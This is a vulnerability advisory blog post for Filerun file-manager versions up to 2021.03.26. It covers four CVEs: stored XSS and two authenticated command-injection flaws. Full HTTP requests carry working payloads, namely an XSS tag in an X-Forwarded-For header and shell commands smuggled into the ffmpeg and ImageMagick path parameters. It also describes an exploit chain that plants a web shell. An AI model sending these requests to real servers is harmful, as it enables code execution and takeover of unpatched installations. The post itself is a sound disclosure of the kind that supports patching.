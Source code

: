 ```yaml
---
layout: post
current: post
cover2: assets/images/welcome.jpg
cover: False
navigation: True
title: Advisory for Filerun <= 2021.03.26
date: 2021-09-23 10:00:00
tags: [advisory]
class: post-template
subclass: 'post'
author: chris
---
```


We discovered multiple vulnerabilities in [Filerun](https://filerun.com) <= 2021.03.26.
The vulnerabilities were fixed in Filerun 2021.06.27.

| CVE ID | Type |
| --- | --- |
| CVE-2021-35503 | Stored Cross-Site-Scripting (unauthenticated) in HTTP header |
| CVE-2021-35504 | Remote Code Execution (authenticated) using *checkFFmpeg* |
| CVE-2021-35505 | Remote Code Execution (authenticated) using *checkImageMagick* |
| CVE-2021-35506 | Stored Cross-Site-Scripting (authenticated) in HTML-Editor |

## CVE-2021-35503
Sending a malicious *X-Forwarded-For* header results in a stored XSS in the activity logs. 
The code is triggered if an admin views or archives the logs.
Filerun blocks brute force attacks. To prevent account lock out, use a non-existent username.
```
POST /?module=fileman&page=login&action=login HTTP/1.1
Host: localhost
Content-Length: 66
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-For: <iMg onerror=alert(1) src=a>
Cookie: FileRunSID=a99a9ba3867833fd1af9b6549eb83524
Connection: close

username=filerun&password=password&otp=&two_step_secret=&language=
```

## CVE-2021-35504
An attacker with access to the admin backend can abuse the *checkFFmpeg* action to trigger code execution in the context of the webserver user.

```
POST /?module=cpanel&section=settings&page=image_preview&action=checkFFmpeg HTTP/1.1
Host: localhost
Content-Length: 29
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=887bebeb478e22731a2cabdeb0cf876e
Connection: close

path=ffmpeg%7Cecho%20%60ls%60
```

## CVE-2021-35505
An attacker with access to the admin backend can abuse the *checkImageMagick* action to trigger code execution in the context of the webserver user.

```
POST /?module=cpanel&section=settings&page=image_preview&action=checkImageMagick HTTP/1.1
Host: localhost
Content-Length: 40
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=887bebeb478e22731a2cabdeb0cf876e
Connection: close

mode=exec&path=convert%7Cecho%20%60ls%60
```

## CVE-2021-35506
An attacker can upload an HTML file with malicious javascript code. The code is executes when a user views or edits this file using the HTML-Editor.


## Exploit Chain
We published a [Proof of Concept](https://www.exploit-db.com/exploits/50313) that exploits *CVE-2021-35503* and *CVE-2021-35505*.
The code injects Javascript into the Activity Log Feed, that triggers the Remote Code Execution as soon as the administrator visits the page.
This will upload a *shell.php* file in the web root.


## Demo
![Demo](assets/filerun.2021.35503.and.35505.gif)


**Thanks to the Filerun team to address these findings immediately.**
